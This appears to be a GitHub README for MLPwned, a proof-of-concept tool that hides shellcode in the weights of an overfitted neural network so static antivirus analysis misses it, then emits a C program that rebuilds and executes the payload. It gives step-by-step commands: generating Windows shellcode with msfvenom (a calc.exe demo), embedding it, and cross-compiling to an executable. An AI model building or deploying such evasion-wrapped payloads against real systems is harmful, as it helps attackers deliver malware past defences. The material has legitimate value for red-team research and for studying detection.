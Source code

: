 # MLPwned

Using neural networks for malicious code obfuscation and delivery.

MLPwned is a proof-of-concept tool that uses a small, overfitted neural network (specifically a multi-layer perceptron) to store and reconstruct arbitrary shellcode at runtime. By embedding the shellcode bytes into the model’s learned weights, the script makes static analysis significantly more difficult. This is because traditional antivirus or forensic tools won’t directly detect malicious byte sequences in the binary. The final output is a self-contained C file that includes both the trained model parameters and logic needed to rebuild and execute the shellcode on demand, all without requiring a GPU. This approach is inspired by implicit neural representations, highlighting how neural networks can be used in unconventional ways to obfuscate and deliver malicious payloads.

## Table of Contents

- [Installation](#installation)
- [Usage](#usage)
- [License](#license)

## Installation

### 1. Install Metasploit

Download and install Metasploit using the following commands:

```bash
curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \
chmod 755 msfinstall && \
./msfinstall
```

### 2. Install Python Packages

```bash
pip install -r requirements.txt
```

### 3. Install MinGW-w64

```bash
sudo apt update
sudo apt install mingw-w64
```

## Usage

### 1. Generate Shellcode with msfvenom

```bash
msfvenom -a x64 --platform Windows -p windows/x64/exec CMD=calc.exe -f python
```
![MLPwned Screenshot](assets/1.jpg)

### 2. Embed the Shellcode into MLPwned.py
Copy and paste the Python-formatted shellcode into MLPwned.py under the comment:
```bash
# Add msfvenom shellcode below
```

### 3. Run the Python Script

```bash
python MLPwned.py
```
![MLPwned Screenshot](assets/2.jpg)


### 4. Compile MLPwned.c to a Windows Executable

```bash
x86_64-w64-mingw32-gcc -o MLPwned.exe MLPwned.c
```